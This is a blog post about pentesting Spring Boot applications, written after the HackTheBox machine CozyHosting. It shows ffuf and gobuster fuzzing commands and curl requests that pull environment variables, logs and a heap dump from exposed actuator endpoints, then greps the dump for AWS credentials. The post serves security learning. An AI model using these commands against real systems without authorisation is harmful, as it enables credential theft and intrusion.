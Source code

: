 ```yaml
---
layout: post
title:  "SpringBoot Pentesting"
date:   2023-09-07 09:29:20 +0700
tags: [htb,pentesting]
categories: jekyll update
usemathjax: true
---
```


> # SpringBoot Pentesting

I was solving CozyHosting from HTB which had the initial foothold related to SpringBoot, so I’m gonna dive deeper like i always do

Vulnerable Spring application, if you want to test it out while reading the blog

[GitHub - malexmave/blog-spring-actuator-example: An example project with a vulnerable Spring Actuator configuration, as a companion to a blog post](https://github.com/malexmave/blog-spring-actuator-example)

This github  repository is associated with the blog linked down below

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

## What is Spring Boot?

Spring Boot is a powerful and versatile framework that simplifies the development of web applications. Its simplicity, versatility, and active community make it a popular choice among developers.

### Spring **≠ Spring Boot**

| Spring | Spring Boot |
| --- | --- |
| Spring is a popular Java-based framework used for building web applications. | Spring Boot is a framework built on top of Spring. |
| Spring provides a wide range of features and tools for building web applications | Spring Boot simplifies the development process by eliminating the need for developers to write boilerplate code. |

## The story of Actuator.

Spring Boot includes a number of additional features called [actuators](https://docs.spring.io/spring-boot/docs/current/reference/html/production-ready-features.html) to help monitor and control an application when it is pushed to production. Actuators allow controling and monitoring an application using either HTTP or JMX endpoints.

They can be quite helpful in debugging or monitoring a Spring application, but if you expose them too widely, things can get dangerous very quickly.

Spring provides a **[list of all actuators](https://docs.spring.io/spring-boot/docs/2.5.6/reference/html/actuator.html#actuator.endpoints)** that are present by default and can be enabled.

The built-in endpoints will only be auto-configured when they are available. Most applications choose exposure via HTTP, where the ID of the endpoint along with a prefix of /actuator is mapped to a URL. For example, by default, the health endpoint is mapped to /actuator/health




> ### Fuzzing Actuators

```bash
ffuf -w ~/Desktop/tools/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt  -u http://10.10.11.224:55555/FUZZ

gobuster dir -w ~/wordlist/KaliLists/dirbuster/directory-list-2.3-medium.txt --url http://cozyhosting.htb/

```

Scanning pages simultaneously 

```bash
$ cat domains.txt
domain.com
sub1.domain.com
sub2.domain.com
[... etc ...]

$ ffuf -w endpoints.txt:PATH -w domains.txt:DOMAIN -u http://DOMAIN/PATH
```

More about the way this could be automated and easier to understand is linked in the blog below. 

[Spring Actuator Security, Part 3: Finding Exposed Actuators using Dynamic Testing with ffuf](https://blog.maass.xyz/spring-actuator-security-part-3-finding-exposed-actuators-using-dynamic-testing-with-ffuf?source=more_series_bottom_blogs)

## Finding Actuators ( Manually )

[Spring Actuator Security, Part 2: Finding Actuators using Static Code Analysis with semgrep](https://blog.maass.xyz/spring-actuator-security-part-2-finding-actuators-using-static-code-analysis-with-semgrep?source=more_series_bottom_blogs)

> ## Exploiting Actuators

### Looking for Secrets

```bash

curl localhost:8081/actuator/env | jq .

// ... lots of stuff
"DB_CONN": {
    "value": "psql://server/db",
    "origin": "System Environment Property \"DB_CONN\""
},
// ... lots of stuff
```

### Reading logs

```bash
curl localhost:8081/actuator/logfile

2022-08-24 13:45:14.813  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Entering hello world function...
2022-08-24 13:45:14.814  INFO 68465 --- [http-nio-8081-exec-2] com.example.demo.DemoApplication         : Dumping AWS credentials for debugging purposes: Key: AKIATESTTEST Token: TESTingSecretAccessTest
```

### Dumping the dump ( Heapdump)

```bash
curl localhost:8081/actuator/heapdump -o heap.bin
```

This endpoint does exactly what it sounds like - it takes a copy of the Java heap (i.e., the memory of the application) and provides it to me as a large blob of binary data.

Now you can just use ``` strings heap.bin | grep -C 20 AWS ```

This does not even touch the surface of SpringBoot exploitation, I have linked better and more indepth blog about this by pros.

More about Exploiting Actuators

[Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators)

[Exploiting Spring Boot Actuators - Veracode](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

### References

[SPRING BOOT PENTESTING PART 1- FUNDAMENTALS](https://blog.certcube.com/spring-boot-pentesting-fundamentals-part-1/)

[SPRING BOOT PENTESTING PART 2- ACTUATORS](https://blog.certcube.com/spring-boot-pentesting-part-2-actuators/)

[Spring Boot Actuators](https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)

[Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).